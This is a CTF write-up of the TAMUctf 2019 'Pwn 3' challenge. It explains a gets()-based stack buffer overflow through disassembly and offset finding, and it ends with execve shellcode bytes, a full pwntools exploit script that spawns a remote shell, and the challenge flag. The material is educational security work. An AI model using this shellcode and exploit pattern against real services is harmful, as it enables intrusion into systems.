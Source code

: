 ```yaml
---
layout: single
title: TAMUctf 2019 Pwn Write-up 3 of 6
excerpt: Part 3 of my TAMUctf pwn write-up series. This challenge tackles stack buffer overflow leading to a shellcode execution.
date: '2019-03-16T13:06:00.746Z'
classes: wide
categories:
- ctf
- tamuctf
tags:
- pwn
- bof
- shellcode
---
```


Part 3 of my TAMUctf pwn write-up series.

| ![Shoutout to my teammates, hackstreetboys represent! — \[hsb\] ar33zy](https://cdn-images-1.medium.com/max/800/1*g3FaWZ3_fBnKeAakFt74Bg.png) |
|:--:|
| Shoutout to my teammates, hackstreetboys represent! — \[hsb\] ar33zy |

### Pwn 3 Solution (Difficulty: Easy, 387 pts.)

> This challenge tackles stack buffer overflow leading to a shellcode execution.

Let’s try to run the binary.

![Oohh, what does that address mean?](https://cdn-images-1.medium.com/max/800/1*nCkfivZIN-zSZFHRqsVMQg.png)

Again, the first part of the program prompted a statement, and asked for an input. But there is something notable on this statement. It says that we might need the given address in order to solve the problem. Let’s take note of that.

Now, let’s try to enter a very long string.  

![SEGFAULT !!!](https://cdn-images-1.medium.com/max/800/1*iaFQv0CiEwuzG3B23y8Fow.png)

We got a segmentation fault! Let’s inspect the core dump generated by this program crash.

![Ooohhh, complete return address overwrite.](https://cdn-images-1.medium.com/max/800/1*D-pt5GD13WDAYitu8CKajQ.png)

It looks like we have overwritten the return address with **0x41414141** or **AAAA** in ascii. We need to determine the length of our buffer before we can overwrite the return address.

We can use a tool like [https://github.com/Svenito/exploit-pattern](https://github.com/Svenito/exploit-pattern) to make our lives easier.

Let’s generate a long string pattern.

![Pattern length 1000](https://cdn-images-1.medium.com/max/800/1*tyrDbVRM2d4YYtKjJfp84A.png)

Let’s use the pattern to trigger the program crash.

![](https://cdn-images-1.medium.com/max/800/1*B1K2mjPvL_q_bs_vECxpZQ.png)
![](https://cdn-images-1.medium.com/max/800/1*nTqoWiTjA7gyMB7M1dIAJw.png)

We got `0x316b4130`. Let’s use this value to determine the offset.

![302 is the offset ](https://cdn-images-1.medium.com/max/800/1*_Z8uGM9keYxGRVbrRoJ5wg.png)

We got 302 as the offset needed before we overwrite the return address.

With these data, we can now control the program flow. But where do we want to jump after the return address? Let’s go back to the drawing board.

Let’s check the properties of the binary to have an idea on what we can do on this binary.

![Oohh, NX is disabled hehe :)](https://cdn-images-1.medium.com/max/800/1*Ug-PZWeHq-3LKOl21nEgXA.png)

NX is disabled.

Obviously, canary is disabled since we are able to overwrite the return address. But there is something notable here. NX or No-Execute marks certain areas of memory as non-executable. Basically, this property prevents execution of shellcodes. Since this property is disabled, we can insert and execute a shellcode on this program. Our next problem is where should we insert the shellcode.

Let’s go back and dissect the main function to have a better understanding of the program flow:

```
Dump of assembler code for function main:  
   0x565555e3 <+0>: lea    ecx,\[esp+0x4\]  
   0x565555e7 <+4>: and    esp,0xfffffff0  
   0x565555ea <+7>: push   DWORD PTR \[ecx-0x4\]  
   0x565555ed <+10>: push   ebp  
   0x565555ee <+11>: mov    ebp,esp  
   0x565555f0 <+13>: push   ebx  
   0x565555f1 <+14>: push   ecx  
   0x565555f2 <+15>: call   0x56555629 <\_\_x86.get\_pc\_thunk.ax>  
   0x565555f7 <+20>: add    eax,0x19d5  
   0x565555fc <+25>: mov    edx,DWORD PTR \[eax+0x28\]  
   0x56555602 <+31>: mov    edx,DWORD PTR \[edx\]  
   0x56555604 <+33>: push   0x0  
   0x56555606 <+35>: push   0x0  
   0x56555608 <+37>: push   0x2  
   0x5655560a <+39>: push   edx  
   0x5655560b <+40>: mov    ebx,eax  
   0x5655560d <+42>: call   0x56555440 <setvbuf@plt>  
   0x56555612 <+47>: add    esp,0x10  
   0x56555615 <+50>: call   0x5655559d <echo> \*\* (1)  
   0x5655561a <+55>: mov    eax,0x0  
   0x5655561f <+60>: lea    esp,\[ebp-0x8\]  
   0x56555622 <+63>: pop    ecx  
   0x56555623 <+64>: pop    ebx  
   0x56555624 <+65>: pop    ebp  
   0x56555625 <+66>: lea    esp,\[ecx-0x4\]   
   0x56555628 <+69>: ret      
End of assembler dump.
```

Most of the instructions are just for the initialization of the program. But there is one notable function that we can expand, the **echo** function.

Disassembling the echo function gives us the following data:

```
Dump of assembler code for function echo:  
   0x5655559d <+0>: push   ebp  
   0x5655559e <+1>: mov    ebp,esp  
   0x565555a0 <+3>: push   ebx  
   0x565555a1 <+4>: sub    esp,0x134  
   0x565555a7 <+10>: call   0x565554a0 <\_\_x86.get\_pc\_thunk.bx>  
   0x565555ac <+15>: add    ebx,0x1a20  
   0x565555b2 <+21>: sub    esp,0x8  
   0x565555b5 <+24>: lea    eax,\[ebp-0x12a\]   
   0x565555bb <+30>: push   eax  
   0x565555bc <+31>: lea    eax,\[ebx-0x191c\]  
   0x565555c2 <+37>: push   eax  
   0x565555c3 <+38>: call   0x56555410 <printf@plt> \*\* (1)  
   0x565555c8 <+43>: add    esp,0x10  
   0x565555cb <+46>: sub    esp,0xc  
   0x565555ce <+49>: lea    eax,\[ebp-0x12a\]   
   0x565555d4 <+55>: push   eax  
   0x565555d5 <+56>: call   0x56555420 <gets@plt> \*\* (2)  
   0x565555da <+61>: add    esp,0x10  
   0x565555dd <+64>: nop  
   0x565555de <+65>: mov    ebx,DWORD PTR \[ebp-0x4\]  
   0x565555e1 <+68>: leave    
   0x565555e2 <+69>: ret      
End of assembler dump.
```

This is what we saw when we tried to run the program. These are the things that we can get from observing the data above:

> (1) The program starts by printing a string that contains an address from the stack.

![](https://cdn-images-1.medium.com/max/800/1*nzLAaX3fLZz47PLAZ5AHWw.png)

Pseudocode of how the printf function is executed:

```
printf("Take this, you might need it on your journey %p!\\n", &ebp-0x12a)
```

> (2) The program also writes the user input to **$ebp-0x12a** which is the given address.

```
   0x565555ce <+49>: lea    eax,\[ebp-0x12a\] \*\*\*  
   0x565555d4 <+55>: push   eax  
   0x565555d5 <+56>: call   0x56555420 <gets@plt> 
```

With the following details, we can formulate this attack pattern:

```
- Get the value of **$ebp-0x12a**
- Insert shellcode to **$ebp-0x12a**
- Jump to shellcode by overwriting the return address with **$ebp-0x12a**
- Enjoy the shell
```

Our payload will look like this:

```
<shellcode> + <302 bytes buffer - shellcode length> + <given address> 
```

We can use this 32-bit shellcode from [http://shell-storm.org/shellcode/files/shellcode-827.php](http://shell-storm.org/shellcode/files/shellcode-827.php)

```
\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80
```

Sample exploit code:

```
./exploit.py

from pwn import \*

r = remote("pwn.tamuctf.com",4323)

shellcode = "\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"  
offset = 302

shell\_addr = r.recvuntil("!").split(' ')\[-1\].replace('!','')  
log.info("Shellcode address: {}".format(shell\_addr))  
shell\_addr = int(shell\_addr,16)

payload = ""  
payload += shellcode  
payload += "A"\*(offset-len(shellcode))  
payload += p32(shell\_addr)

r.sendline(payload)  
r.interactive()
```

Flag: **gigem{r3m073\_fl46\_3x3cu710n}**

\-

Thank you for reading. Hope you learned something from this write-up. Feel free to drop any comments on this one. 

— ar33zy
